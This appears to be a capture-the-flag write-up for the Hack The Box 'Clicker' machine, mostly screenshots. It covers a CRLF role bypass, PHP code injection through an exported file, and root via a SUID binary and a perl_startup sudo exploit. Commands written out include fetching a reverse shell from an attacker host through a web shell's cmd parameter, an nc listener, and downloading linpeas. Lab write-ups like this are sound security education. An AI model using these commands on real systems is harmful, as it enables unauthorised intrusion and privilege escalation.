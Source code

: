 ## Initial Foothold
Threader3000 output:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/d83bdf8f-3087-46af-946b-a0344f5eaa52)

nmap scan:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/d79217f2-b1fa-4899-9b3e-4083800ab551)

Mounting through rpcbind we get the source code to the website:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/a4d493c3-c315-4bd0-8961-19fb17aa2cfe)

Going to the http page, I see that clicker.htb is a hostname, so I put it in /etc/hosts:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/f3440627-79ea-4910-8c3d-eb57c8124ee5)

ffuf scan:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/2a60e4e1-06cc-405f-a9bb-d95f003467f9)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/93acf304-50df-4fcc-b61d-4cdf8500032b)
![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/0eb00477-1b1d-4b74-aaa9-4f53aef5cdc1)
![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/d8dc8649-b141-4ed7-815c-69a93f9ca79f)

Looking at save_game.php, we see that they are likely trying to prevent us from setting our "role" to admin:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/0601bdfb-aaad-4af3-ab3d-b12fdad1d0af)

CRLF (Carriage Return Line Feed) Bypass to get Admin on webapp:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/350ed58b-d660-4c8f-af7b-575b22f275ea)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5a7bc25f-74ec-4a0d-ae18-cd59db2edba9)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5b4d2183-a6c5-4dda-a3f1-9f02e2d71865)

Setting payload in nickname field that will be displayed in the exported file:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/ee9b195d-20a2-46de-adf1-4d7f71d401bb)

Setting the exported file extension to .php so it can be executed:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/a4eb0281-5c97-4b6d-81f5-fcb2b8d15519)

RCE achieved:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/58cf322c-c3bf-4257-8597-78372fdca035)

Host a server with python locally and download the php reverse shell onto the target machine:
- https://github.com/ivan-sincek/php-reverse-shell
- python3 -m http.server 80
- http://clicker.htb/exports/top_players_hsyxecsn.php?cmd=wget%20http://10.10.14.13/flexibleshell.php

Listen and execute the rshell:
- rlwrap nc -nvlp 1234
- http://clicker.htb/exports/top_players_hsyxecsn.php?cmd=php%20flexibleshell.php
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/cf60cc8f-313a-46a3-980c-c2bbf3b003d9)

## Privesc
stabilize shell:
- python3 -c "import pty;pty.spawn('/bin/sh')"
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/25cb1630-f605-4662-8943-bc6e390989e4)
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/88a83453-bbe3-4c31-a144-5d027fbc99dd)

download and execute linpeas:
- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- wget 10.10.14.13/linpeas.sh
- chmod +x linpeas.sh
- ./linpeas.sh
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/fdaab627-91c0-483c-ba60-05818d1acea5)

There is a functionality in this SUID binary that allows us to read jack's private ssh key (the program is run inside jack's home directory):

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/3c5ca730-ecc1-4326-a932-dcd6d33656bb)

Copy/paste it over onto local machine into "id_rsa", and then run "ssh jack@clicker.htb -i id_rsa":

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/59b04f7e-32d7-4759-a9c6-940461bac970)


Checking out sudo permissions, we see /opt/monitor.sh which is a perl script allowing us to use an perl_startup privesc:
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/57e5bfda-9ab9-472c-9b64-e5f3be8958e6)
- https://www.exploit-db.com/exploits/39702

Exploit to give bash an SUID bit and get root:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5591564a-e3db-4930-818e-f307f2f5120f)

## What I learned
 - CRLF (Carriage Return Line Feed) Bypass
 - perl_startup privesc
